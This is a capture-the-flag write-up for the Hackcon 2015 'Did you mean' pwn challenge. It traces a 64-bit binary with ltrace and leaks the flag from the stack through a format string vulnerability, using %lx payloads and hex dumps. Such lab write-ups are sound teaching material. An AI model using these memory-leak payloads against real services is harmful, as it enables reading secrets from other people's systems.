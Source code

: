 # Hackcon 2015: Did you mean

**Category:** Pwnage
**Points:** 50
**Author:** [Aneesh Dogra](https://github.com/lionaneesh)
**Difficulty:** Medium
**Description:** 

[Pwnie](pwnie)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <http://vimvaders.github.io/hackcon2015/2015/08/20/did-you-mean.html>

### Meta

Keywords:

* Format String `fs`
* Difficulty: `beginner`

We are given a x86-64bit non-stripped ELF for Linux:

```bash
$ file pwnie
pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped
```

Running it:

```bash
$ ./pwnie
No!
```

`ltrace -f`:

```bash
$ ltrace -f ./pwnie 
[pid 3161] __libc_start_main(0x4006c0, 1, 0x7fff95c96be8, 0x4008b0 <unfinished ...>
[pid 3161] fopen("flag.txt", "r")                     = 0
[pid 3161] puts("No!"No!
)                                = 4
[pid 3161] fflush(0x7f5b83ac7400)                     = 0
[pid 3161] +++ exited (status 255) +++
```

Looks like we have to provide a flag file named `flag.txt` with a flag in it: `echo 'flag{thisisatestflag}' > flag.txt`

Running it again:

```bash
$ ./pwnie 
hello?
Did you say: 
hello?
```

It echos back whatever we are saying!

Trying a Stack Buffer Overflow:

```bash
$ p -c 'print "A"*0x200' | ./pwnie 
Did you say: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$
$ echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | wc
      0       1      99
```

Looks like we can't smash the stack and only provide up to `99`/`100` bytes of input.

We try to verify this again with `ltrace -f`:

```bash
$ ltrace -f ./pwnie 
[pid 3172] __libc_start_main(0x4006c0, 1, 0x7fff475ce218, 0x4008b0 <unfinished ...>
[pid 3172] fopen("flag.txt", "r")                     = 0xc6e010
[pid 3172] fgets("flag{thisisatestflag}\n", 100, 0xc6e010) = 0x7fff475ce060
[pid 3172] fgets(hello
"hello\n", 100, 0x7f51d851e640)      = 0x7fff475ce0c4
[pid 3172] strncmp("hello\n", "flag{thisisatestflag}\n", 10) = 2
[pid 3172] puts("Did you say: "Did you say: 
)                      = 14
[pid 3172] fflush(0x7f51d851e400)                     = 0
[pid 3172] __printf_chk(1, 0x7fff475ce0c4, 0, -1hello
)     = 6
[pid 3172] fflush(0x7f51d851e400)                     = 0
[pid 3172] +++ exited (status 0) +++
```

We see a `fopen` on our flag file and a `fgets` that reads the flag into the stack at `0x7fff475ce060`.

Afterwards, [`__printf_chk()`](http://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---printf-chk-1.html) is called, with the second argument being the format string.

This smells like a format string vulnerability!

Let's test it:

```bash
$ p -c 'print "%x."*0x10' | ./pwnie
Did you say: 
0.ffffffff.bde88740.0.67616c66.61736973.67616c66.0.0.0.0.bdeac520.789e91b0.789e91a0.f63d4e2e.400436.
```

We can see that after providing several `%x` (read e.g. [here](https://www.exploit-db.com/docs/28476.pdf) how format string exploits work), several lower-case words in hexadecimal from the stack are printed.

Since we are dealing with `64`bit, our words are long words, we provide the long hex format `%lx`:

```bash
$ p -c 'print "%lx."*0x10' | ./pwnie 
Did you say: 
0.ffffffffffffffff.7fe653ab0740.0.6968747b67616c66.7473657461736973.a7d67616c66.0.0.0.0.7fe653ad4520.7fffab9a88a0.7fffab9a8890.f63d4e2e.400436.
```

If you look at the `5th` and `6th` long word, you can see hexadecimal output, which is human readable if converted to ASCII.

[This python script](./format-dump.py) dumps all long words considering little-endianess and zero-padding to the screen, which we then pipe to `xxd` to convert to binary.

Since the flag is stored on the stack, we should see the flag if we provide enough long words formats.

```bash
$ p format-dump.py 50 | xxd -r -p | xxd
0000000: 0000 0000 0000 0000 ffff ffff ffff ffff  ................
0000010: 40e7 e61b 4a7f 0000 0000 0000 0000 0000  @...J...........
0000020: 666c 6167 7b74 6869 7369 7361 7465 7374  flag{thisisatest
0000030: 666c 6167 7d0a 0000 0000 0000 0000 0000  flag}...........
0000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000050: 0000 0000 0000 0000 2025 e91b 4a7f 0000  ........ %..J...
0000060: 9046 864c ff7f 0000 8046 864c ff7f 0000  .F.L.....F.L....
0000070: 2e4e 3df6 0000 0000 3604 4000 0000 0000  .N=.....6.@.....
0000080: ffff ffff 256c 782e 256c 782e 256c 782e  ....%lx.%lx.%lx.
0000090: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000a0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000b0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
```

We can clearly see the flag in the ASCII representation column of `xxd`.

If we test it on the remote server, we get the real flag, `FORMAT(str)`:

```bash
$ p format-dump.py 50 | xxd -r -p | xxd
0000000: 0000 0000 0000 0000 ffff ffff ffff ffff  ................
0000010: 4057 0b81 f67f 0000 0000 0000 0000 0000  @W..............
0000020: 464f 524d 4154 2873 7472 2900 f67f 0000  FORMAT(str).....
0000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000050: 0000 0000 0000 0000 2095 0d81 f67f 0000  ........ .......
0000060: 0077 0f93 ff7f 0000 f076 0f93 ff7f 0000  .w.......v......
0000070: 2e4e 3df6 0000 0000 3604 4000 0000 0000  .N=.....6.@.....
0000080: ffff ffff 256c 782e 256c 782e 256c 782e  ....%lx.%lx.%lx.
0000090: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000a0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000b0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
```

## Other write-ups and resources

 <http://vimvaders.github.io/hackcon2015/2015/08/20/did-you-mean.html>
